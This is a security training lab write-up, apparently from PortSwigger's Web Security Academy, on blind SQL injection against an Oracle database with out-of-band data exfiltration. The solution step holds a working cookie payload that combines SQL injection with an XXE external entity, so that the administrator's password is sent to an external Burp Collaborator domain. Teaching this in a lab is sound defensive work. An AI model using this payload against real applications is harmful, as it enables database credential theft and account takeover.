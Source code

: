 # Lab: Blind SQL injection with out-of-band data exfiltration

### PRACTITIONER

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.  

```
Note
```
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server (burpcollaborator.net). 

```
Hint
```
This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

### Solution

1. Visit the front page of the shop, and use <a href="/burp/pro">Burp Suite Professional</a> to intercept and modify the request containing the <code>TrackingId</code> cookie.

2. Go to the Burp menu, and launch the <a href="/burp/documentation/desktop/tools/collaborator-client">Burp Collaborator client</a>.

3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.

4. Modify the <code>TrackingId</code> cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic <a href="/web-security/xxe">XXE</a> techniques as follows: <code>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('&lt;%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f&gt;&lt;!DOCTYPE+root+[+&lt;!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/"&gt;+%25remote%3b]&gt;'),'/l')+FROM+dual--</code>.

5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.

6. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the <code>administrator</code> user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.

7. In your browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.